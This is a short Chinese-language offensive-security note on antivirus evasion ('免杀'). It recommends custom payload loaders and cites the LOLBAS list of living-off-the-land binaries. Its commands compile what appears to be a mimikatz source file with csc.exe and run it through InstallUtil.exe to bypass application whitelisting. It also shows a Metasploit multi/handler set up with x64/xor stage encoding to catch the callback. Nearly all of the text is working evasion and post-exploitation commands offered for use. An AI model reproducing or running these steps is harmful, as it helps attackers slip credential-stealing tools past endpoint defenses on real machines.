 # 免杀

0 bookmark tool/avbypass

1 自己写一个加载器，分离免杀

国内杀软的免杀其实还是非常简单直接的，关键在于回连了之后的很多操作依然被hook。

不一定要依赖，其实自己写代码调api就行。

2 使用微软自己的程序   white list : lolbas-project.github.io

```
csc.exe + InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe

msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```

